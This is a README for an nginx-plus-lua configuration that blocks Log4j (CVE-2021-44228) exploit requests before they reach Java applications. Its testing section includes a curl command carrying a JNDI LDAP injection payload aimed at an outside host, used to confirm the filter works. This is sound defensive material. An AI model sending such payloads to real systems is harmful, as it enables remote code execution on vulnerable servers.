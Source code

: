 
# nginx-lua
This repository contains the configuration for the mitigation of Log4j vulnerabilities in the JAVA applications. Nginx, with the help of lua module, will prevent the attacker to access vulnerable JAVA application.
Special thanks to [John H Patton
](https://johnhpatton.medium.com/) for the motivation to extend the solution he wrote to mitigate the Log4j vulnerability.


## Description
This implementation will provide a quick fix for the vulnerability [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). Expertflow latest release is not vulnerable to this vulnerability and we recommend you to update to the latest release. However, this is also one way to mitigate the risk of remote code execution with the help of Nginx + lua module. After this implementation, each request will be inspected by Nginx and if the request has exploit to remotely execute the code in either its header or in the body, the request will be dropped and won't make its way to the internal application.


## Requirements
1. Expertflow has built Debian-based Nginx image with lua module build-in. Just pull the docker image of nginx from the Expertflow Dockerhub registry.
2. Update the `nginx.conf` file
3. Clone and mount the `nginx-lua.conf` `lua.conf`, and `cve_2021_44228.lua` files to your nginx container.

We assume that the nginx is deployed in Docker throughout the document.




## Implementation Steps
1. Clone and copy the `nginx-lua.conf`, `https-lua.conf`, `lua.conf`, and `cve_2021_44228.lua` ,  in the `/path/to/nginx_volume_mount/`. 
For example if you have deployed nginx in Docker then there must be a section present called `Volumes:` in your docker-compose. For example:
```
volumes:
      - /path/to/nginx_volume_mount/https.conf:/etc/nginx/conf.d/https.conf
```

This is mounting a custom `https.conf` file to the build-in nginx `https.conf` file present under the directory: `/etc/nginx/conf.d/` in nginx container.

2. Now we need to modify `https.conf`. Update the `/path/to/nginx_volume_mount/https.conf` file by adding the following code in `https.conf`

```
include /etc/nginx/https-lua.conf
```



4. Now we need to update the `docker-compose.yml` file of the nignx. 
- Update the `image:` entry with the `expertflow/nginx-lua:debian-1.21.4`
- Navigate to the `volume:` section and mount these files to docker container by adding the following code:
```
    volumes:
      - /path/to/nginx_volume_mount/https.conf:/etc/nginx/conf.d/https.conf
      - /path/to/nginx_volume_mount/https-lua.conf:/etc/nginx/https-lua.conf
      - /path/to/nginx_volume_mount/nginx-lua.conf:/etc/nginx/nginx.conf
      - /path/to/nginx_volume_mount/cve_2021_44228.lua:/usr/local/lib/lua/cve_2021_44228.lua
      - /path/to/nginx_volume_mount/lua.conf:/etc/nginx/conf.d/lua.conf
```
5. Now just remove the nginx container and start it again. 

### Testing
We can now test our implementation whether it's blocking the exploit in the request or not. To test it, send the following request with the exploit present in the header and body with `curl`. Just replace the string `<FQDN>` with your FQDN.
```
curl --location --request POST 'https://<FQDN>/uri' \
--header 'efheader: ${jndi:ldap://8.8.4.4:1111/RCE/Command}' \
--header 'Content-Type: application/json' \
--data '{
    "messages": [{
        "from": "333",
        "contacts": "Jon Doe",
        "text": {
            "body": "${jndi:ldap://8.8.4.4:1111/RCE/Command}"
        }
    }]
}'
```
This will show you the following response which indicates that the configurations are working in perfect manner.
```
 Expertflow Log4J Forbidden
```
